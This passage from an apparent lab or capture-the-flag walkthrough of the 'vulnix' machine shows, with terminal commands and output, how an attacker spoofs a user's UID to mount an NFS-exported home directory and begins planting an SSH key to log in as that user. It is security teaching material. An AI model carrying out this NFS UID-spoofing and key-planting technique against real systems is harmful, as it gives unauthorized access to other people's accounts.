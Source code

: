 ### 2.2 Privilege escalation P1

We can now ssh into the victim's machine as user `user` but there's not much to do unfortunately. GCC isn't installed so a local exploit won't work since they're written in C.

If you navigate to `/home you'll notice the shared directory we couldn't access earlier. Why don't we try to get the UID for vulnix and create a temporary user on our system and access it?

```console
user@vulnix:/home$ id vulnix
uid=2008(vulnix) gid=2008(vulnix) groups=2008(vulnix)
user@vulnix:/home$ exit
logout
Connection to 192.168.1.72 closed.
root@kali:~# useradd -u 2008 vulnix
root@kali:~# mkdir /tmp/mnt
root@kali:~# mount -t nfs 192.168.1.72:/home/vulnix /tmp/mnt -nolock
root@kali:~# cd /tmp/mnt
bash: cd: /tmp/mnt: Permission denied
root@kali:~# su vulnix
$ whoami
vulnix
$ id
uid=2008(vulnix) gid=2008(vulnix) groups=2008(vulnix)
$ cd /tmp/mnt
$ ls
$ ls -al
total 20
drwxr-x---  2 vulnix vulnix 4096 Sep  2  2012 .
drwxrwxrwt 12 root   root   4096 Oct 31 00:03 ..
-rw-r--r--  1 vulnix vulnix  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 vulnix vulnix 3486 Apr  3  2012 .bashrc
-rw-r--r--  1 vulnix vulnix  675 Apr  3  2012 .profile
$
```

Let's generate keys for SSH so we can login into vulnix!

Steps:

1. Create ssh key pair by running `ssh-keygen`.
2. Create `.ssh` directory on the mounted share `/home/vulnix/.ssh`.
3. Copy the content of the public key to `/home/vulnix/.ssh`.
4. SSH into `vulnix@_victim_ip_`!

```console
root@kali:~# ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa):
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /root/.ssh/id_rsa.
Your public key has been saved in /root/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:jAQAkGBjXyvc8yD2eGxR1fxY1z3nh/rxUFfuyfH3Uoc root@kali
The key's randomart image is:
+---[RSA 2048]----+
|**.... ...o     o|
|+ + o.o    o . o=|
|   * *.     + .++|
|  . *.=o   . ...*|
|   . =..S    ..+*|
|    o       . Eo*|
|             . =+|
|              o o|
|               . |
+----[SHA256]-----+
```
